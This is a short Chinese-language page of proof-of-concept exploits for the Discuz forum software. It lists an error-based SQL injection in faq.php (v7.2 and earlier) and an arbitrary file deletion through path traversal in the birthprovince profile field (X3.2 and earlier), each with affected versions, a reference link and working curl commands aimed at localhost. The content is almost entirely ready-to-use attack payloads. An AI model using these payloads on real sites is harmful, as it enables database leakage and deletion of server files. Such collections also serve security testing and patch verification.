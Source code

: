 ## discuz v7.2 

### faq.php 报错注入

影响版本 

* <= 7.2

参考链接

* [Discuz!7.2 faq.php文件SQL注入漏洞分析及利用实战](http://blog.51cto.com/simeon/1440000)

Poc

```
curl -g '127.0.0.1/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=%29%20and%20%28select%201%20from%20%28select%20count%28*%29,concat%28user%28%29,floor%28rand%280%29*2%29%29x%20from%20information_schema.tables%20group%20by%20x%29a%29%23'
```

## discuz X3.2

### birthprovince 任意文件删除

影响版本 

* <= X3.2

参考链接

* [Discuz!X前台任意文件删除漏洞重现及分析](http://www.freebuf.com/vuls/149904.html)

Poc

```
设置要删除的文件
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -d 'birthprovince=../../../hello.txt&profilesubmit=1&formhash=...' -H 'Cookie: ...''

触发漏洞
curl 'http://127.0.0.1/home.php?mod=spacecp&ac=profile&op=base' -F 'profilesubmit=1' -F 'formhash=...' -F birthprovince=@1.jpg -H 'Cookie: ...'
```



